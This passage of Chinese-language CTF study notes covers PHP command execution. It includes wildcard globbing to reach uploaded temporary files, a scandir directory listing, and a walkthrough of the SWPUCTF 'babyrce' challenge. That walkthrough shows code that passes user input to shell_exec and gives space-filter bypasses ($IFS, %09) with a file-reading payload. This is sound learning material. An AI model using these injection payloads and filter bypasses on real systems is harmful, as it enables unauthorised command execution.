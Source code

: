 但是因为匹配上`/???/?????????`的文件很多，所以我们要限制
文章给的方法是因为只有我们PHP生成的临时文件包含大写字母，使用[]来选定范围大写字符，大写字母在@和[之间

`/???/????????[@-[]`表示最后一个字符是大写字母

因为上传的文件名是随机的，可能要多尝试几次

### scandir读取

`var_dump()`：输出变量的详细信息，不仅会输出变量的值，还会输出变量的类型和长度

`scandir()`：获取指定目录下的所有文件和文件夹名称，传入/，意味着列出系统根目录下所有文件

```
var_dump(scandir(chr(47)));
```

### 无回显rce

## 题目

### [SWPUCTF 2021 新生赛]babyrce

第一步，要cookie，在网络中修改

![image-20250304160221358](C:\Users\13932\AppData\Roaming\Typora\typora-user-images\image-20250304160221358.png)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

有点绕过

应该是绕过空格

`$IFS$9`，`${IFS}`，`$IFS`

`%09`还有这个，相当于tab键

用这个绕过空格

```
?url=cat%09/flllllaaaaaaggggggg
```
